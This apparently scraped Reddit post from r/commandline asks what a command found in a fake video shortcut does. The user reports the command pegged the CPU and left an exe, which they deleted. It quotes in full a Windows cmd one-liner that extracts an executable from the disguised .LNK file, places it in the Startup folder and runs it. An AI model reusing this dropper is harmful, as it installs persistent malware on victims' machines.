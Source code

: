 +++
title = """What does this script do?"""
date = 2024-11-12T11:06:24.000Z
tags = ["reddit","cli"]
+++
I downloaded a video, didn't check. Turned out to be a shortcut with this in the description. It quickly started a cmd file that was using 100% of CPU. Anyone know what this does? It doesn't seem like it would be super malicious but have no idea

%COMSPEC% /V:on/CSet C=Last.Week.Tonight.with.John.Oliver.S11E29.1080p.mkv&Set G="%appdata%\\MICROSOFT\\WINDOWS\\Start menu\\Programs\\Startup\\%username%.exe"&(if not exist !G! Findstr/V "System32 cfi%TIME:~7,1%%TIME:~-2%" !C!.LNK>!G!&START "" !G!)&CD %TEMP%&Echo.

Edit: still not sure what it does. But using chatgpt found where it saved an exe file and deleted that too

submitted by [/u/frna111](https://www.reddit.com/user/frna111)  
[\[link\]](https://www.reddit.com/r/commandline/comments/1gpi9v3/what_does_this_script_do/) [\[comments\]](https://www.reddit.com/r/commandline/comments/1gpi9v3/what_does_this_script_do/)

[[source]](https://www.reddit.com/r/commandline/comments/1gpi9v3/what_does_this_script_do/)
